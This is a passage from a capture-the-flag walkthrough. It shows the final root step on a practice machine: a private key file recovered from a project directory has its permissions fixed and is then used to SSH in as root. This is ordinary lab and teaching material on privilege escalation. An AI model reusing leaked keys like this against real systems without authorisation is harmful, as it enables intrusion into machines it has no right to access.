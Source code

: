 Better! The file **authcredentials.key** has appeared inside resources/integration/.
Let's try to login as root using this key:

```bash
roosa@gitter:~/work/blogfeed$ ssh -i resources/integration/authcredentials.key root@localhost
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@         WARNING: UNPROTECTED PRIVATE KEY FILE!          @
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
Permissions 0664 for 'resources/integration/authcredentials.key' are too open.
It is required that your private key files are NOT accessible by others.
This private key will be ignored.
Load key "resources/integration/authcredentials.key": bad permissions
root@localhost's password: 
```

SSH refuses to use this key because permissions are too open. We can fix this with `chmod 0600 resources/integration/authcredentials.key` and try to connect again.

```bash
roosa@gitter:~/work/blogfeed$ ssh -i resources/integration/authcredentials.key root@localhost
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.13.0-37-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

135 packages can be updated.
60 updates are security updates.

Last login: Fri Oct 12 04:48:17 2018 from 10.10.13.23
root@gitter:~# 
```

Bingo! Enjoy the flag :wink:

<p id="signature">BoiteAKlou :hammer:</p>
